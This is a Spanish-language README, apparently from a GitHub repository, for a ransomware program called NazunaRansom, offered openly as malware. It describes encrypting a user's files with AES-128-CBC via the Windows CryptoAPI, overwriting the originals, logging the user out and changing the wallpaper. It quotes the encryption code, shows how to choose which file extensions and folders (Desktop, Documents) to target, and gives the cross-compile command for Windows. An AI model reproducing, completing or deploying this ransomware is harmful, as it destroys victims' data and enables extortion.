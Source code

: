 # NazunaRansom
Nazuna Ransomware v1, es un ransomware inspirado en mi waifu (Nazuna)

### Caracteristicas

- Usa cifrado AES-128 en modo CBC
- Cierra la sesion del usuario
- Cambia el fondo de pantalla
- Cifra los subdirectorios de un directorio dado

### Funciones de cifrado

**CryptAcquireContext**

```c++
if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, 0)) {
  if (!CryptAcquireContext(&nazuna.hProv, NULL, MS_ENH_RSA_AES_PROV, PROV_RSA_AES, CRYPT_NEWKEYSET)) {
    return false;
  }
}
```
En el primer if trata de obtener el identificador del contenedor CSP, ```nazuna.hProv``` funciona como un puntero que almacena el identificador CSP, si no se puede obtener el identifcador se vuelva a llamar a ```CryptAcquireContext``` con ```CRYPT_NEWKEYSET``` para crear un contenedor de claves en CSP

**CryptGenKey**

```c++
CryptGenKey(nazuna.hProv, CALG_AES_128, CRYPT_EXPORTABLE, &nazuna.hkey);
```
Genera una key AES-128 de acuerdo al identificador del CSP y la key la almacena en ```nazuna.hkey```

**CryptEncrypt**

```c++
CryptEncrypt(nazuna.hkey, 0, true, 0, buf, &bytes_leer, BUF_LEN);
```
Cifra los datos de acuerdo al CSP, ```buf``` es un puntero al buffer datos que contiene los datos que se van a cifrar, ```bytes_leer``` es la cantidad de bytes que se van a cifrar, que son los bytes del archivo original, este buffer cifrado se sobreescribira por el original con unas funciones más adelante

### Modificaciones

Dentro de la funcion ```recorrer_dir``` puedes especificar las extensiones de los archivos que quieres que se cifren:

```c++
if (extension == ".txt" || extension == ".cpp" || extension == ".pdf" || extension == ".docx" || extension == ".xlsx")
```

En la funcion ```main``` puedes especificar otro directorio que se va a cifrar

```c++
string ruta = filesystem::path(string(getenv("USERPROFILE")) + "\\Desktop").string();
```
Solo modifica ```Desktop``` por otra, ej: ```Documents```

### Compilado
Yo lo compile desde GNU/Linux con el comando

```bash
x86_64-w64-mingw32-g++ -o NazunaRansom NazunaRansom.cpp -lbcrypt -static -static-libgcc -static-libstdc++ -lurlmon
```

![](https://github.com/ic4rta/NazunaRansom/blob/main/Nazuna_Ransom_Fondo.jpg)
